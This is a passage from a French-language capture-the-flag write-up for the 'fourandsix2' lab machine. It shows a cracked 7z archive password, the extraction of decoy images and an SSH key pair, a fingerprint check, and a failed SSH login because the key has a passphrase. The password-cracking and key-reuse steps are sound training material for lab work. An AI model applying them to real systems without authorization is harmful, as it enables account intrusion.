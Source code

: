 ```console
Cost 2 (padding size) is 6 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (backup.7z)
1g 0:00:00:01 DONE (2018-11-30 22:22) 0.8196g/s 26.22p/s 26.22c/s 26.22C/s 654321..butterfly
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

L'extraction des fichiers peut alors s'effectuer sans problème.

```console
root@blinils:~# cp /mnt/fourandsix/backup.7z .
root@blinils:~# 7z e backup.7z -pchocolate -ofolder_backup/ &>/dev/null
root@blinils:~# ls folder_backup/
hello1.jpeg  hello2.png  hello3.jpeg  hello4.png  hello5.jpeg
hello6.png  hello7.jpeg  hello8.jpeg  id_rsa      id_rsa.pub
```

## Cassage de la passphrase d'une clé privée SSH

Les huit images JPG et PNG sont celles du personnage [_Hello Kitty_](https://fr.wikipedia.org/wiki/Hello_Kitty) et ont vraisemblablement été placées là en guise de fausses pistes : aucune trace de flag dans les métadonnées des images ([__exiftool__](http://www.sno.phy.queensu.ca/~phil/exiftool/)), aucun message caché dans les bits de poids faible des images ([__StegSolve__](http://www.caesum.com/handbook/stego.htm), [__zsteg__](https://github.com/zed-0xff/zsteg)), et rien dans les fichiers eux-mêmes ([_strings_](https://en.wikipedia.org/wiki/Strings_(Unix)), [_grep_](https://en.wikipedia.org/wiki/Grep)). Dommage ! Pas d'épreuve de [stéganographie](https://en.wikipedia.org/wiki/Steganography) ce coup-ci...

Les clés privée et publique SSH sont donc la piste la plus sérieuse, pour la suite de ce challenge boot2root. Il s'agit bel et bien d'une paire de clés SSH, car l'une comme l'autre produisent le même _fingerprint_.

```console
root@blinils:~/folder_backup# head -n1 id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
root@blinils:~/folder_backup# head -n1 id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2

root@blinils:~/folder_backup# ssh-keygen -l -f id_rsa
2048 SHA256:BPl29YrxUBdBmLaG6K58UGlR0wruEBQE8vGOtrbXl8Y user@fourandsix2 (RSA)
root@blinils:~/folder_backup# ssh-keygen -l -f id_rsa.pub
2048 SHA256:BPl29YrxUBdBmLaG6K58UGlR0wruEBQE8vGOtrbXl8Y user@fourandsix2 (RSA)
```

Puisque nous disposons de la clé privée SSH du compte ```user```, nous pouvons nous connecter au serveur avec.

```console
root@blinils:~/folder_backup# ssh -i id_rsa user@192.168.56.101
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
user@192.168.56.101's password: 
Permission denied, please try again.
user@192.168.56.101's password: 
Permission denied, please try again.
user@192.168.56.101's password: 
user@192.168.56.101: Permission denied (publickey,password,keyboard-interactive).
```
